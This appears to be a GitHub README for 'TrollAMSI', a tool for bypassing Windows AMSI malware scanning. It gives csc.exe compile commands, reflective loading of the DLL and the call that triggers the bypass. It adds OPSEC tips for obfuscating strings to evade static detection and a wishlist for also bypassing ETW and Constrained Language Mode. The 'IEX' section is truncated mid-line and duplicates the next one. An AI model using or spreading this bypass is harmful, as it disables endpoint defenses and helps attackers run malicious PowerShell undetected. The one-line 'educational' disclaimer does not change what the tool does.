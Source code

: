 # TrollAMSI


# Benefits
- No P/Invoke or win32 API calls
- No amsi.dll patching
  
# Usage 

## IEX 
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll WorkingAMSIbypass.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[Tro
```
## Compiled
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll WorkingAMSIbypass.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

# OPSEC
'Static 
- obfuscate "AmsiUtils" and "ScanContent" maybe?
'Dynamic
- Nothing much really
  
# Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - CLM enforcement
  - maybe there's more?
  
# Disclaimer
Should only be used for educational purposes!
